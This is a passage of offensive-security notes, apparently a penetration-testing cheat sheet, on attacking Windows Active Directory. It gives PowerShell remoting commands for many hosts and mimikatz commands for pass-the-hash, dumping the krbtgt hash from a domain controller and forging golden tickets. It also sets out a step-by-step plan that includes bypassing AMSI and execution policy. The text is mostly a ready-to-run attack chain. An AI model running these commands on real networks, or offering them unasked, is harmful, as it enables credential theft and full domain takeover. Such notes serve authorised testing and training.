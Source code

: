 > both are executed in **wsmprovhost** process

To execute to many machines: **Invoke-Command**


Example:
```powershell
Invoke-Command -ComputerName <computer> -Credential <user> -ScriptBlock {whoami}
Invoke-Command -ScriptBlock {whoami;hostname} -Credential <user> -ComputerName (Get-Content .\Desktop\computerlist.txt)
Invoke-Command -FilePath <path\script.ps1> -Credential <user> -ComputerName (Get-Content .\Desktop\computerlist.txt) or -Session <$sess>
```

Execute functions that were imported locally in remote machines:
```powershell
Invoke-Command -ScriptBlock ${function:<name>} -ComputerName <computer>
```


## Over Pass the Hash

> With hashes in hand we can use mimikatz or invoke-mimikatz

```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:<cmd>

Invoke-Mimikatz -Command ‘ “command” ’
```


## Golden Ticket
```powershell
Mimikatz # lsadump::lsa /patch
```


Strategy:

1. bypass AMSI
2. bypass ExecutionPolicy
3. import mimikatz
4. open session in DC
5. bypass AMSI in DC
6. execute ScriptBlock remotely with Invoke-Command -Session $sess -ScriptBlock  ${Function:Invoke-Mimikatz ‘ "lsadump::lsa /patch" ’}
7.  with krbtgt in hands we can execute the golden ticket

```powershell
Mimikatz # kerberos::golden /user:<user> /domain:<domain FQDN> /sid:<domain SID> /krbtgt:<hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt or /ticket to save in file
```

   
> RID and Group it will be: *513*, *518*, *519*, *520*
> time in minutes 

8. Invoke-Mimikatz -Command ‘ “golden ticket command” ’
